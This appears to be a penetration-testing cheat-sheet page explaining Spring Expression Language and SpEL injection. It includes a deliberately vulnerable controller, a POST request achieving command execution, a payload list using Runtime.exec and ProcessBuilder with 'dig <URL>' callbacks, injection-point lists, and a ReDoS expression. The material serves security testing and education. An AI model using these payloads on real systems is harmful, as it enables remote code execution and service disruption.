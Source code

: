 # Spring Expression Language (SpEL) overview

The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime.

{% raw %} {% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html" %} {% endraw %}

## Expression evaluation using Spring's expression interface

The following code introduces the SpEL API to evaluate the literal string expression `Hello World!`:

```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("'Hello World'.concat('!')");
String message = (String) exp.getValue();
```

The value of the `message` variable is simply `Hello World!`.

## The EvaluationContext interface

The interface [EvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/EvaluationContext.html) is used when evaluating an expression to resolve properties, methods, fields, and to help perform type conversion. There are two main out-of-the-box implementations:

- [StandardEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/StandardEvaluationContext.html). A powerful and highly configurable `EvaluationContext` implementation. This context uses standard implementations of all applicable strategies, based on reflection to resolve properties, methods and fields.
- [SimpleEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html). A basic implementation of `EvaluationContext` that focuses on a subset of essential SpEL features and customization options, targeting simple condition evaluation and in particular data binding scenarios.

```java
StandardEvaluationContext standardContext = new StandardEvaluationContext();
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('id')");
// execute 'id' command (standard context is used by default)
exp.getValue();
// execute 'id' command
exp.getValue(standardContext);
// receive error message
exp.getValue(simpleContext);
```

## Expression support for defining bean definitions

SpEL expressions can be used with XML or annotation based configuration metadata for defining BeanDefinitions. In both cases the syntax to define the expression is of the form `#{ <expression string> }`.

### XML based configuration

You can set a property or constructor-arg value using expressions.

```xml
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{ T(java.lang.Math).random() * 100.0 }"/>
    <property name="defaultLocale" value="#{ systemProperties['user.region'] }"/>
    <!-- other properties -->
</bean>
```

### Annotation-based configuration

The `@Value` annotation can be placed on fields, methods and method/constructor parameters to specify a default value.

```java
public static class FieldValueTestBean {
  @Value("#{ systemProperties['user.region'] }")
  private String defaultLocale;

  public void setDefaultLocale(String defaultLocale)
  {
    this.defaultLocale = defaultLocale;
  }

  public String getDefaultLocale()
  {
    return this.defaultLocale;
  }
}
```

## Language reference

{% raw %} {% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html#expressions-language-ref" %} {% endraw %}

# SpEL Injection

SpEL injection occurs when user controlled data is passed directly to the SpEL expression parser. For instance, the following method uses the standard context to evaluate SpEL expression:

```java
private static final SpelExpressionParser PARSER = new SpelExpressionParser();
private static final StandardEvaluationContext CONTEXT = new StandardEvaluationContext();

@PostMapping(path = "/")
public void method(@RequestBody String path, @RequestBody String value) {
    Expression expression = PARSER.parseExpression(path);
    expression.setValue(CONTEXT, value);
    // ...
}
```

As a result, you can gain code execution by sending the following `POST` request:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
...

{"path":"T(java.lang.Runtime).getRuntime().exec('touch executed').x", "value":"executed"}
```

If you have access to a source code, try to search for vulnerable code using the following keywords:

- `SpelExpressionParser`, `EvaluationContext`, `parseExpression`, `@Value("#{ <expression string> }")`
- `#{ <expression string> }`, `${<property>}`, `T(<javaclass>)`

If a source code is not available, it is worth checking the `metrics` and `beans` endpoints provided by the Spring Boot actuators.

{% raw %} {% embed url="https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators" %} {% endraw %}

These endpoints can expand the list of available beans and the parameters they accept.

Additionally, try to use expressions in different elements of the service:

- Parameter names and values:
    - `variable[<expression string>]=123`
    - `variable=123&<expression string>=123`
    - `{"<expression string>":"123"}`
    - `{"variable":"<expression string>"}`
- HTTP headers:
    - `Cookie: cookie_name=<expression string>`
    - `Cookie: <expression string>=cookie_value`
    - `Private-Token: <expression string>`
- etc.

You can use the following payloads as the expression string:

```java
${1+3}
T(java.lang.Runtime).getRuntime().exec("dig <URL>")
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('dig <URL>')
new java.lang.ProcessBuilder({'dig <URL>'}).start()
${user.name}
```

## ReDoS

The `SimpleEvaluationContext` context prevents arbitrary code executing and writes a error message. However, you still can exploit the ReDoS attack.

```java
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("'aaaaaaaaaaaaaaaaaaaaaaaa!'.matches('^(a+)+$')");
// ReDoS
exp.getValue(simpleContext);
```

# References

- [Spring Framework Docs: Spring Expression Language (SpEL)](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html)
- [SpEL Injection (Russia)](https://habr.com/ru/company/dsec/blog/433034/)
